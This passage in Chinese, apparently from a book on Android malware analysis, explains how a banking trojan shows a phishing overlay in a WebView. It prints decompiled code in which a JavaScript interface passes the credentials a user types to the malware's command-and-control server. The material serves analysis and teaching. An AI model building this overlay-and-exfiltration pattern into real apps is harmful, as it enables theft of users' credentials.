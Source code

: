 ```
            this.wv.setWebChromeClient(new MyWebChromeClient());
            this.wv.addJavascriptInterface(new WebAppInterface(this), 
                "Android");
            this.wv.loadDataWithBaseURL(null, 
                this.resource.getPageResource(this),
                    "text/html", "UTF-8", null);
            setContentView(this.wv);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

*清单 4-28：钓鱼窗口使用 WebView 来展示钓鱼页面。*

当显示此对话框时，它会将钓鱼页面的 HTML 代码加载到 WebView 中并显示给用户。`getPageResource`方法会获取针对目标定制的 HTML。

#### ***窃取凭证***

最后，为了理解应用如何窃取凭证，我们需要了解用户输入的凭证如何从 WebView 中的 HTML 页面传输到应用，并且应用是如何将它们发送到其命令与控制服务器的。

JavaScript 接口作为网站与应用之间的桥梁。如清单 4-28 所示，该接口基于一个名为`WebAppInterface`的 Java 类，并作为名为`Android`的 JavaScript 对象暴露给网站。清单 4-29 展示了完整的`WebAppInterface`类。

```
public static class WebAppInterface {
    OverlayInjectActivity parent;

    WebAppInterface(OverlayInjectActivity overlayInjectActivity) {
        this.parent = overlayInjectActivity;
    }

    @JavascriptInterface
    public void send_log_injects(String str) {
        returnResult(str);
    }

    @JavascriptInterface
    public void returnResult(String str) {
        new ApiOperationController().sendRequest(
            this.parent,
            new ApiInjectionSuccessRequestPayload(
                "inj_success",
                new ApiInjectionSuccess(
                    UtilGlobal.SettingsRead(
                        this.parent, Constants.appInjectTag),
                    str)
            ),
        true);
        OverlayInjectActivity overlayInjectActivity = this.parent;
        UtilGlobal.flagPackageInjectionIgnored(
            overlayInjectActivity, overlayInjectActivity.resource.id);
        this.parent.finish();
    }
}
```
